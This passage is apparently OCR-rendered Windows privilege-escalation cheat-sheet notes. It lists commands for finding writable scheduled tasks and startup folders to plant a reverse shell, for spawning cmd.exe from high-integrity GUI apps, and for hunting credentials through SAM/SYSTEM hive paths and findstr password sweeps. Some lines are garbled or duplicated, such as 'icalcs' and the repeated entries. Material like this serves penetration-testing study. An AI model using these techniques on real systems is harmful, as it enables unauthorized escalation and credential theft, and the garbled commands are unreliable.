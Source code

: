```bash
schtasks /query /fo LIST /v  #Displays list of scheduled tasks, Pickup any interesting one
#Permission check - Writable means exploitable!
icalcs "path"
#Wait till the scheduled task in executed, then we'll get a shell
```

#### Startup Apps

```
C:\Users\Username\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

Startup applications can be found in above locations

Check writable permissions and transfer reverse shell there

The only catch here is the system needs to be restarted

#### Insecure GUI apps

Check the applications that are running from "TaskManager" and obtain list of applications running with high integrity

Open that particular application, using "open" feature enter the following

```
[file://c:/windows/system32/cmd.exe](file://c:/windows/system32/cmd.exe)
```

#### Passwords

#### Sensitive files

```bash
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system

findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
Findstr /si password *.config
findstr /si pass/pwd *.ini

dir /s *pass* == *cred* == *vnc* == *.config*
```

in all files

```bash
findstr /spin "password" *.*
findstr /spin "password" *.*
```
